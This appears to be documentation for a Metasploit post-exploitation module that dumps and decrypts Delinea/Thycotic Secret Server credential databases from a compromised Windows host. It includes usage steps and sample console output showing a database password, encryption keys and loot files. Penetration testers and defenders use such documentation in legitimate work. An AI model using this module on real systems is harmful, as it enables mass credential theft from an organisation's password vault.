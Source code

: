 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delinea/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software; there is also support for encryption configs configured with
Windows DPAPI MachineKey protection. The module contains two actions, `dump` and `export`, the
former extracts the encrypted Secret Server database and performs decryption, and the latter
allows the encryption keys and encrypted database to be plundered for later offline decryption
in situations where expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module has been tested against Secret Server versions 8.4 through 11.2, though it may work on
earlier versions. It is intended to be run after successfully exploiting a Windows host with the
Delinea/Thycotic Secret Server software installed. The module supports decryption of configuration
files that have been protected by Windows DPAPI, but does not support extraction of any secrets
if the system is configured with a Hardware Security Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delinea/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt the Secret Server database, or `export` to extract the encrypted database only

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Windows Server 2019 host running Secret Server 11.2 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Performing export and decryption of Secret Server SQL database
[*] Export Secret Server DB ...
[+] 47842 rows exported, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829112535_default_10.1.0.113_thycotic_secrets_288749.txt
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[-] SecretID 1395 field 'Notes' failed to decrypt
[-] SecretID 2050 field 'Notes' failed to decrypt
[-] SecretID 2506 field 'Notes' failed to decrypt
[-] SecretID 2549 field 'Notes' failed to decrypt
[-] SecretID 2558 field 'Notes' failed to decrypt
[-] SecretID 2566 field 'Notes' failed to decrypt
[-] SecretID 2567 field 'Notes' failed to decrypt
[-] SecretID 2583 field 'Notes' failed to decrypt
[-] SecretID 3393 field 'Notes' failed to decrypt
[-] SecretID 4060 field 'Notes' failed to decrypt
[!] SecretID 4092 field 'SFTP Site' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 4103 field 'Notes' failed to decrypt
[-] SecretID 4174 field 'Notes' failed to decrypt
[-] SecretID 4625 field 'Notes' failed to decrypt
[-] SecretID 5393 field 'Notes' failed to decrypt
[-] SecretID 5647 field 'Notes' failed to decrypt
[-] SecretID 6018 field 'Notes' failed to decrypt
[-] SecretID 6250 field 'Notes' failed to decrypt
[-] SecretID 6263 field 'Notes' failed to decrypt
[-] SecretID 6657 field 'Notes' failed to decrypt
[-] SecretID 9169 field 'Notes' failed to decrypt
[-] SecretID 10577 field 'Notes' failed to decrypt
[-] SecretID 10777 field 'Notes' failed to decrypt
[!] SecretID 11097 field 'Notes' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field 'Notes' failed to decrypt
[-] SecretID 11973 field 'Notes' failed to decrypt
[-] SecretID 11974 field 'Notes' failed to decrypt
[-] SecretID 11997 field 'Notes' failed to decrypt
[!] 47842 rows processed (26 rows failed)
[*] 45117 rows recovered: 34479 plaintext, 10638 decrypted (2699 blank)
[*] 45117 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220829112547_default_10.1.0.113_thycotic_secrets_357639.txt
[*] Post module execution completed
msf6 post(multi/gather/thycotic_secretserver_dump) > 
```

Windows Server 2019 host running Secret Server 11.2 using the `export` action:
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > export

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer_112E
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: 376f80b25053d74afcc321837442ddc9
[+]     KEY256: 5b0f4d7d2d89c180b62c64b881072d4cf2b6fd0487c9d4438050a4734a3ece19
[+]         IV: d933b2ad66c785891d4bc916cebdde15
[*] Performing export of Secret Server SQL database to CSV file
[*] Export Secret Server DB ...
[+] 3 rows exported, 1 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829113427_default_10.1.0.113_thycotic_secrets_175194.txt
[*] Post module execution completed